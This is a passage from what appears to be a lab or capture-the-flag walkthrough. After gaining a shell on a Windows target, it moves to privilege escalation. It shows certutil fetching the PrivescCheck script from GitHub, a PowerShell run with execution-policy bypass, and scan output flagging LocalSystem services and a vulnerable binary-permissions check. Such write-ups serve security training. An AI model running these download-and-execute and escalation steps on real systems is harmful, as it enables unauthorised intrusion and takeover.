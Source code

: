 Well done, we now have shell on the target

# 4. Privilege escalation

## 4.1. Finding points of privilege escalation

Scan for possible points of privilege escalation using [PrivescCheck](https://github.com/itm4n/PrivescCheck)

```cmd
certutil.exe -urlcache -f -split https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1 %TEMP%\PrivescCheck.ps1
c:\windows\system32\inetsrv>certutil.exe -urlcache -f -split https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1 %TEMP%\PrivescCheck.ps1
****  Online  ****
  000000  ...
  01444c
CertUtil: -URLCache command completed successfully.
powershell -nop -ep bypass -c "Import-Module %TEMP%\PrivescCheck.ps1; Invoke-PrivescCheck"
c:\windows\system32\inetsrv>powershell -nop -ep bypass -c "Import-Module %TEMP%\PrivescCheck.ps1; Invoke-PrivescCheck"
⋮
+------+------------------------------------------------+------+
| TEST | SERVICES > Non-default Services                | INFO |
+------+------------------------------------------------+------+
| DESC | List all registered services and filter out the ones  |
|      | that are built into Windows. It does so by parsing    |
|      | the target executable's metadata.                     |
+------+-------------------------------------------------------+
[*] Found 5 result(s).
Name        : FileZilla Server
DisplayName : FileZillaServer
ImagePath   : "C:\xampp\filezillaftp\filezillaserver.exe"
User        : LocalSystem
StartMode   : Automatic
Name        : FreeSWITCH
DisplayName : FreeSWITCH Multi Protocol Switch
ImagePath   : "C:\Program Files\FreeSWITCH\FreeSwitchConsole.exe"  -service
User        : LocalSystem
StartMode   : Automatic
Name        : GoogleChromeElevationService
DisplayName : Google Chrome Elevation Service (GoogleChromeElevationService)
ImagePath   : "C:\Program Files\Google\Chrome\Application\107.0.5304.122\elevation_service.exe"
User        : LocalSystem
StartMode   : Manual
Name        : gupdate
DisplayName : Google Update Service (gupdate)
ImagePath   : "C:\Program Files (x86)\Google\Update\GoogleUpdate.exe" /svc
User        : LocalSystem
StartMode   : Automatic
Name        : gupdatem
DisplayName : Google Update Service (gupdatem)
ImagePath   : "C:\Program Files (x86)\Google\Update\GoogleUpdate.exe" /medsvc
User        : LocalSystem
StartMode   : Manual
⋮
+------+------------------------------------------------+------+
| TEST | SERVICES > Binary Permissions                  | VULN |
+------+------------------------------------------------+------+
| DESC | List all services and check whether the current user  |
|      | can modify the target executable or write files in    |
|      | its parent folder.                                    |
+------+-------------------------------------------------------+
```